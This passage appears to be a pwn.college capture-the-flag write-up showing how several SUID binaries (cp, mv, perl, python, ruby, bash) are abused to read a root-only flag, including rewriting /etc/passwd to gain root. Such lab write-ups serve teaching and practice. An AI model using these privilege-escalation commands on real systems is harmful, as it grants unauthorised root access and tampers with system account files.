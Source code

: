 ```shell
$ cp --attributes-only --preserve=all $(which cp) /flag
$ cat /flag
pwn.college{redacted}
```

**Level 30** : `mv`

```shell
1$ sed "s/1000:1000/0:0/" /etc/passwd > tmp # replaces our uid with root
1$ mv tmp /etc/passwd
# create a new session, through ssh for example
2$ cat /flag
pwn.college{redacted}
```

---

**Lets you read the flag because they let you program anything!**

**Level 41** : `perl`

By default, Perl has one security mode: *taint mode*. This automatically activates a set of special security checks when it detects that its program is running with different *actual and effective* user or group credentials.

For more information, see [perlsec](https://perldoc.perl.org/perlsec).

Here, we override the `PATH` to be able to call `cat`.

```shell
$ perl -e '$ENV{PATH} = "/usr/bin"; exec "cat /flag";'
pwn.college{redacted}
```

**Level 42** : `python`

```shell
$ python -c 'print(open("/flag").read())'
pwn.college{redacted}
```

**Level 43** : `ruby`

You can't launch ruby directly with the `-e` in SUID, but you can always launch the interactive interpreter!

```shell
$ ruby -e 'puts File.read("/flag")'
Traceback (most recent call last):
ruby: no -e allowed while running setuid (SecurityError)
$ irb
irb(main):001:0> puts File.read("/flag")
pwn.college{redacted}
=> nil
```

**Level 44** : `bash`

```shell
$ bash -p
bash-5.0# cat /flag
pwn.college{redacted}
```

---